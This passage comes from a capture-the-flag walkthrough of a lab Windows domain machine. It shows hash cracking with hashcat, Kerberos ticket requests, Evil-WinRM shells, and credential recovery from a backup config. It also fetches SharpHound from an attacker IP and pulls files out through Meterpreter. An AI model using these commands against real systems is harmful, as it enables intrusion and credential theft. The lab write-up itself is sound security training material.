+--------------------+
3 rows in set (0.019 sec)
```

```c
MariaDB [(none)]> use gibbon;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [gibbon]>
```

```c
MariaDB [gibbon]> select * from gibbonmessenger \G;
*************************** 1. row ***************************
 gibbonMessengerID: 000000000001
gibbonSchoolYearID: 025
            status: Sent
             email: 
       messageWall: Y
    messageWallPin: Y
 messageWall_date1: 2025-03-15
 messageWall_date2: NULL
 messageWall_date3: NULL
               sms: 
           subject: !!!IT Notice!!!
              body: <p>Thank you to all that helped us evaluate the desktop management tool, WAPT. We will compare these results to current methods before making recommendations to the school board.  </p>
    gibbonPersonID: 0000000001
         timestamp: 2024-10-29 09:28:54
         emailFrom: NULL
      emailReplyTo: NULL
       emailReport: 
      emailReceipt: NULL
  emailReceiptText: NULL
         smsReport: 
      confidential: N
*************************** 2. row ***************************
 gibbonMessengerID: 000000000002
gibbonSchoolYearID: 025
            status: Sent
             email: 
       messageWall: Y
    messageWallPin: Y
 messageWall_date1: 2025-03-15
 messageWall_date2: NULL
 messageWall_date3: NULL
               sms: 
           subject: !!!Reminder From IT!!!
              body: <p>Reminder that TODAY is the migration date for our server access methods. Most workflows using PowerShell will not notice a difference (Enter-PSSession). If you do have a problem, please reach out to Fiona or Marvin between 8am and 4pm to install the pre-requisite SSH client on your Mac or Windows laptop.  </p>
    gibbonPersonID: 0000000001
         timestamp: 2024-10-29 09:28:54
         emailFrom: NULL
      emailReplyTo: NULL
       emailReport: 
      emailReceipt: NULL
  emailReceiptText: NULL
         smsReport: 
      confidential: N
*************************** 3. row ***************************
<--- CUT FOR BREVITY --->
*************************** 14. row ***************************
 gibbonMessengerID: 000000000014
gibbonSchoolYearID: 025
            status: Sent
             email: 
       messageWall: Y
    messageWallPin: Y
 messageWall_date1: 2025-03-15
 messageWall_date2: NULL
 messageWall_date3: NULL
               sms: 
           subject: !!!List of BANNED passwords!!!
              body: <p>Followup to the recent student hacking activity, the following passwords are now banned:<b><br>--Love<br>--Sex<br>--God<br>--12345<br>--password<br>--letmein<br>--guest<br>--god<br>--trustno1<br>--qwerty<br>--rosebud<br>--love<br>--starwars<br>--admin<br>--letmein123<br>--123456<br>--password1<br>--Bond007<br>--batman<br>--spock<br>--chewie<br>--iloveyou<br>--superman<br>--dragon<br>--open sesame<br>--matrix<br>--swordfish<br>--rosebud<br>--godzilla<br>--iloveyou2<br>--welcome<br>--money<br>--1234<br>--abcd1234<br>--asdfgh<br>--princess<br>--snoopy<br>--cookie<br>--hello<br>--admin123<br>--football<br>--iloveyou3<br>--password123<br>--baseball<br>--buster<br>--michael<br>--ncc1701<br>--letmeinpls<br>--banana<br>--whiskey<br>--pepper<br>--computer<br>--swordfish1</b>  </p>
    gibbonPersonID: 0000000001
         timestamp: 2024-10-29 09:29:00
         emailFrom: NULL
      emailReplyTo: NULL
       emailReport: 
      emailReceipt: NULL
  emailReceiptText: NULL
         smsReport: 
      confidential: N
14 rows in set (0.019 sec)

ERROR: No query specified
```

```c
<--- CUT FOR BREVITY --->
subject: !!!IT Notice!!!
              body: <p>Thank you to all that helped us evaluate the desktop management tool, WAPT. We will compare these results to current methods before making recommendations to the school board.  </p>
<--- CUT FOR BREVITY --->
subject: !!!Reminder From IT!!!
              body: <p>Reminder that TODAY is the migration date for our server access methods. Most workflows using PowerShell will not notice a difference (Enter-PSSession). If you do have a problem, please reach out to Fiona or Marvin between 8am and 4pm to install the pre-requisite SSH client on your Mac or Windows laptop.  </p>
<--- CUT FOR BREVITY --->
```

```c
<--- CUT FOR BREVITY --->
|     0000000001 | Ms.   | Frizzle | Fiona     | Fiona         | Fiona Frizzle |                  | Unspecified | f.frizzle | 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03 | /aACFhikmNopqrRTVz2489 | N                  | Full   | Y        |                 001 | 001             | NULL | f.frizzle@frizz.htb | NULL           | NULL      | ::1           | 2024-10-29 09:28:59 | NULL  

sha256:10000:L2FBQ0ZoaWttTm9wcXJSVFZ6MjQ4OQ==:MDY3Zjc0NmZhY2E0NGYxNzBjNmNkOWQ3YzRiZGFjNmJjMzQyYzYwODY4NzczM2Y4MGZmNzg0MjQyYjBiMGMwMw==
<--- CUT FOR BREVITY --->
```

## Privilege Escalation to f.frizzle
### Cracking the Hash

To `crack` the `hash` we put it together with the corresponding `salt` into a file and let `hashcat` do it's magic.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ cat ffrizzle.hash                                              
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ hashcat -m 1420 -a 0 ffrizzle.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1420 (sha256($salt.$pass))
Hash.Target......: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff...Vz2489
Time.Started.....: Sun Mar 16 05:52:11 2025 (4 secs)
Time.Estimated...: Sun Mar 16 05:52:15 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2808.5 kH/s (0.23ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 11020288/14344385 (76.83%)
Rejected.........: 0/11020288 (0.00%)
Restore.Point....: 11018240/14344385 (76.81%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: JessdoG1 -> Jemel123
Hardware.Mon.#1..: Util: 48%

Started: Sun Mar 16 05:51:49 2025
Stopped: Sun Mar 16 05:52:15 2025
```

| Username  | Password           |
| --------- | ------------------ |
| f.frizzle | Jenni_Luvs_Magic23 |

### Syncing Time

Now we had the `password` but the box only allowed `authentication` via `Kerberos`. Therefore we needed to `sync` our `time` with the `domain controller` in order to request a `Kerberos ticket`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ sudo systemctl stop systemd-timesyncd
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ sudo net time set -S 10.129.41.22
```

### Kerberos Ticket Request

After having done all of that we were able to grab a proper `Kerberos ticket`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ impacket-getTGT -dc-ip "frizzdc.frizz.htb" "frizz.htb"/"f.frizzle":'Jenni_Luvs_Magic23'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in f.frizzle.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ export KRB5CCNAME=f.frizzle.ccache
```

### SSH Configuration

To connect to the box however - either via `SSH` or `WinRM` - it was necessary to make some adjustments to the `/etc/ssh/sshd_config` and the `/etc/krb5.conf`.

```c
<--- CUT FOR BREVITY --->
# Kerberos options
#KerberosAuthentication no
KerberosAuthentication yes
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes
#KerberosGetAFSToken no

# GSSAPI options
#GSSAPIAuthentication no
GSSAPIAuthentication yes
#GSSAPICleanupCredentials yes
GSSAPICleanupCredentials yes
#GSSAPIStrictAcceptorCheck yes
#GSSAPIKeyExchange no
<--- CUT FOR BREVITY --->
```

### KRB5 Configuration

Since we mainly used `WinRM` we performed the following changes to `/etc/krb5.conf` and used `Evil-WinRM` to connect to the box.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/krb5.conf
[libdefaults]
        default_realm = FRIZZ.HTB
        dns_lookup_realm = false
        dns_lookup_kdc = true
<--- CUT FOR BREVITY --->
[realms]
        FRIZZ.HTB = {
                kdc = frizzdc.frizz.htb
                admin_server = frizzdc.frizz.htb
        }
<--- CUT FOR BREVITY --->
[domain_realm]
        .frizz.htb = FRIZZ.HTB
        frizz.htb = FRIZZ.HTB
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ evil-winrm -r FRIZZ.HTB -i frizzdc.frizz.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\f.frizzle\Documents>
```

## user.txt

The `privilege escalation` to `f.frizzle` allowed us to grab the `user.txt` and move on with the box.

```c
*Evil-WinRM* PS C:\Users\f.frizzle\Desktop> type user.txt
60fc30b5849833206c3aecdf660a6f3c
```

## Enumeration of f.frizzle

Unfortunately the `enumeration` of the new user showed a similar picture as for the previous one.

```c
*Evil-WinRM* PS C:\Users\f.frizzle\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ==============================================
frizz\f.frizzle S-1-5-21-2386970044-1145388522-2932701813-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

As next step we placed `winPEAS` on the box and found an interesting `scheduled task` which was called `Frizz-Cleanup`.

- [https://github.com/peass-ng/PEASS-ng](https://github.com/peass-ng/PEASS-ng)

```c
*Evil-WinRM* PS C:\temp> .\winPEASx64.exe
```

```c
<--- CUT FOR BREVITY --->
Scheduled Applications --Non Microsoft--
È Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (frizz\administrator) Frizz-Cleanup: powershell -e c2V0LWNvbnRlbnQgLXZhbHVlICI5YTQyZGU2YzM0YjU0YWRjYjc0MWFiYmIyNzAwZGQ4MiIgLXBhdGggImM6XHVzZXJzXGYuZnJpenpsZVxkZXNrdG9wXHVzZXIudHh0Igokc2hlbGw9bmV3LW9iamVjdCAtY29tIHNoZWxsLmFwcGxpY2F0aW9uCiRiaW4gPSAkc2hlbGwubmFtZXNwYWNlKDB4YSkKaWYoKGAkYmluLml0ZW1zKCl8bWVhc3VyZSkuY291bnQgLWx0IDEpewokaXRlbSA9ICRzaGVsbC5uYW1lc3BhY2UoMCkucGFyc2VuYW1lKCJDOlx1c2Vyc1xmLmZyaXp6bGVcQXBwRGF0YVxMb2NhbFxUZW1wXE15TWlsZXNfQmV0YS56aXAiKQokaXRlbS5pbnZva2V2ZXJiKCJkZWxldGUiKQ==                                                                                                                                                                                                                 
    Trigger: At system startup-After triggered, repeat every 00:05:00 indefinitely.
<--- CUT FOR BREVITY --->
```

It looked like that the `scheduled task` put some files to `Recycle Bin`.

```c
┌──(kali㉿kali)-[~]
└─$ echo "c2V0LWNvbnRlbnQgLXZhbHVlICI5YTQyZGU2YzM0YjU0YWRjYjc0MWFiYmIyNzAwZGQ4MiIgLXBhdGggImM6XHVzZXJzXGYuZnJpenpsZVxkZXNrdG9wXHVzZXIudHh0Igokc2hlbGw9bmV3LW9iamVjdCAtY29tIHNoZWxsLmFwcGxpY2F0aW9uCiRiaW4gPSAkc2hlbGwubmFtZXNwYWNlKDB4YSkKaWYoKGAkYmluLml0ZW1zKCl8bWVhc3VyZSkuY291bnQgLWx0IDEpewokaXRlbSA9ICRzaGVsbC5uYW1lc3BhY2UoMCkucGFyc2VuYW1lKCJDOlx1c2Vyc1xmLmZyaXp6bGVcQXBwRGF0YVxMb2NhbFxUZW1wXE15TWlsZXNfQmV0YS56aXAiKQokaXRlbS5pbnZva2V2ZXJiKCJkZWxldGUiKQ==" | base64 -d
set-content -value "9a42de6c34b54adcb741abbb2700dd82" -path "c:\users\f.frizzle\desktop\user.txt"
$shell=new-object -com shell.application
$bin = $shell.namespace(0xa)
if((`$bin.items()|measure).count -lt 1){
$item = $shell.namespace(0).parsename("C:\users\f.frizzle\AppData\Local\Temp\MyMiles_Beta.zip")
$item.invokeverb("delete")
```

## Privilege Escalation to M.SchoolBus

### Playing Trash Panda

We started investigating the content of `Recycle Bin` and found the file `wapt-backup-sunday.7z`.

```c
*Evil-WinRM* PS C:\> $shell = New-Object -ComObject Shell.Application
*Evil-WinRM* PS C:\> $recycleBin = $shell.Namespace(0xA) 
*Evil-WinRM* PS C:\> $recycleBin.Items() 


Application  : System.__ComObject
Parent       : System.__ComObject
Name         : wapt-backup-sunday.7z
Path         : C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z
GetLink      :
GetFolder    :
IsLink       : False
IsFolder     : False
IsFileSystem : True
IsBrowsable  : False
ModifyDate   : 10/24/2024 9:16:29 PM
Size         : 30416987
Type         : 7Z File
```


Now we used the following `script` to `retrieve` the `file` and `save` it to `C:\out\`.

```c
*Evil-WinRM* PS C:\out> $shell=New-Object -ComObject Shell.Application; $bin=$shell.Namespace(0xA); $dest="C:\out"; if (!(Test-Path $dest)) {New-Item -ItemType Directory -Path $dest | Out-Null}; $bin.Items() | ForEach-Object {if ($_.Name -eq "wapt-backup-sunday.7z") {Write-Host "File found: $($_.Name)"; Write-Host "Path: $($_.Path)"; Write-Host "Size: $($_.Size) bytes"; Write-Host "Type: $($_.Type)"; Write-Host "Last modified: $($_.ModifyDate)"; $destPath=Join-Path -Path $dest -ChildPath $_.Name; Copy-Item -Path $_.Path -Destination $destPath -Force; Write-Host "File copied to: $destPath"}}
File found: wapt-backup-sunday.7z
Path: C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z
Size: 30416987 bytes
Type: 7Z File
Last modified: 10/24/2024 21:16:29
File copied to: C:\out\wapt-backup-sunday.7z
```

```c
*Evil-WinRM* PS C:\out> dir


    Directory: C:\out


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/24/2024   9:16 PM       30416987 wapt-backup-sunday.7z
```

For convenience we used `Metasploit` to `download` the file.

```c
meterpreter > download "C:\out\wapt-backup-sunday.7z"
[*] Downloading: C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 1.00 MiB of 29.01 MiB (3.45%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 2.00 MiB of 29.01 MiB (6.89%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 3.00 MiB of 29.01 MiB (10.34%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 4.00 MiB of 29.01 MiB (13.79%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 5.00 MiB of 29.01 MiB (17.24%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 6.00 MiB of 29.01 MiB (20.68%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 7.00 MiB of 29.01 MiB (24.13%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 8.00 MiB of 29.01 MiB (27.58%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 9.00 MiB of 29.01 MiB (31.03%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 10.00 MiB of 29.01 MiB (34.47%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 11.00 MiB of 29.01 MiB (37.92%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 12.00 MiB of 29.01 MiB (41.37%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 13.00 MiB of 29.01 MiB (44.82%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 14.00 MiB of 29.01 MiB (48.26%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 15.00 MiB of 29.01 MiB (51.71%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 16.00 MiB of 29.01 MiB (55.16%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 17.00 MiB of 29.01 MiB (58.6%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 18.00 MiB of 29.01 MiB (62.05%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 19.00 MiB of 29.01 MiB (65.5%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 20.00 MiB of 29.01 MiB (68.95%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 21.00 MiB of 29.01 MiB (72.39%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 22.00 MiB of 29.01 MiB (75.84%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 23.00 MiB of 29.01 MiB (79.29%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 24.00 MiB of 29.01 MiB (82.74%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 25.00 MiB of 29.01 MiB (86.18%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 26.00 MiB of 29.01 MiB (89.63%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 27.00 MiB of 29.01 MiB (93.08%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 28.00 MiB of 29.01 MiB (96.53%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 29.00 MiB of 29.01 MiB (99.97%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Downloaded 29.01 MiB of 29.01 MiB (100.0%): C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
[*] Completed  : C:\out\wapt-backup-sunday.7z -> /home/kali/wapt-backup-sunday.7z
```

### Investigating the 7-Zip Archive

We extracted the file (of course to a dedicated folder because we knew 100% that the archive would contain a `billion files` - we did not) and started looking into them.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ 7z e wapt-backup-sunday.7z 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 30416987 bytes (30 MiB)

Extracting archive: wapt-backup-sunday.7z
--
Path = wapt-backup-sunday.7z
Type = 7z
Physical Size = 30416987
Headers Size = 65880
Method = ARM64 LZMA2:26 LZMA:20 BCJ2
Solid = +
Blocks = 3

                                                                 
Would you like to replace the existing file:
  Path:     ./REQUESTED
  Size:     0 bytes
  Modified: 2024-09-11 01:25:36
with the file from archive:
  Path:     wapt/lib/site-packages/beautifulsoup4-4.11.2.dist-info/REQUESTED
  Size:     0 bytes
  Modified: 2024-09-11 01:25:38
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? A

Everything is Ok                                                                                       

Folders: 684
Files: 5384
Size:       141187501
Compressed: 30416987
```

The most interesting one was the `waptserver.ini` which contained a `password` encoded with `Base64`.

```c
┌──(kali㉿kali)-[/media/…/Machines/TheFrizz/files/unpacked]
└─$ cat waptserver.ini 
[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log
```

```c
┌──(kali㉿kali)-[~]
└─$ echo "IXN1QmNpZ0BNZWhUZWQhUgo=" | base64 -d
!suBcig@MehTed!R
```

| Password         |
| ---------------- |
| !suBcig@MehTed!R |

With `Netexec` we verified that the `password` was working for the user `M.SchoolBus`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ nxc ldap frizzdc.frizz.htb -u 'm.schoolbus' -p '!suBcig@MehTed!R' -k
LDAP        frizzdc.frizz.htb 389    frizzdc.frizz.htb [*]  x64 (name:frizzdc.frizz.htb) (domain:frizz.htb) (signing:True) (SMBv1:False)
LDAP        frizzdc.frizz.htb 389    frizzdc.frizz.htb [+] frizz.htb\m.schoolbus:!suBcig@MehTed!R
```

### Get Access as M.SchoolBus

We requested a new `ticket` as `M.SchoolBus` and logged in using `Evil-WinRM` again.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ impacket-getTGT -dc-ip "frizzdc.frizz.htb" "frizz.htb"/"m.schoolbus":'!suBcig@MehTed!R'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.schoolbus.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ export KRB5CCNAME=m.schoolbus.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/files]
└─$ evil-winrm -r FRIZZ.HTB -i frizzdc.frizz.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents>
```

## Pivoting M.SchoolBus

All good things are three and therefore we didn't had any luck with the check on `permissions` and `group memberships` again.

```c
*Evil-WinRM* PS C:\Users\M.SchoolBus\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ==============================================
frizz\m.schoolbus S-1-5-21-2386970044-1145388522-2932701813-1106


GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Active Directory

### Creating Dump using SharpHound

Since `enumeration` brought us to an dead end, we looked into an `dump` of the `Active Directory` we created earlier in the box using `SharpHound`.

- [https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.exe](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.exe)

```c
PS C:\temp> iwr 10.10.14.124/SharpHound.exe -o SharpHound.exe
```

```c
PS C:\temp> .\SharpHound.exe -c All
2025-03-15T20:29:39.3979652-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-03-15T20:29:39.6167165-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-03-15T20:29:39.6479627-07:00|INFORMATION|Initializing SharpHound at 8:29 PM on 3/15/2025
2025-03-15T20:29:39.8042121-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for frizz.htb : frizzdc.frizz.htb
2025-03-15T20:29:39.8510948-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-03-15T20:29:40.0385851-07:00|INFORMATION|Beginning LDAP search for frizz.htb
2025-03-15T20:29:40.1011649-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-03-15T20:29:40.1011649-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-03-15T20:30:10.6948833-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2025-03-15T20:30:27.0698363-07:00|INFORMATION|Consumers finished, closing output channel
2025-03-15T20:30:27.1167101-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2025-03-15T20:30:27.2260888-07:00|INFORMATION|Status: 110 objects finished (+110 2.340425)/s -- Using 44 MB RAM
2025-03-15T20:30:27.2260888-07:00|INFORMATION|Enumeration finished in 00:00:47.1986646
2025-03-15T20:30:27.3198382-07:00|INFORMATION|Saving cache with stats: 69 ID to type mappings.
 71 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-03-15T20:30:27.3354615-07:00|INFORMATION|SharpHound Enumeration Completed at 8:30 PM on 3/15/2025! Happy Graphing!
```

```c
meterpreter > download 20250315203026_BloodHound.zip
[*] Downloading: 20250315203026_BloodHound.zip -> /home/kali/20250315203026_BloodHound.zip
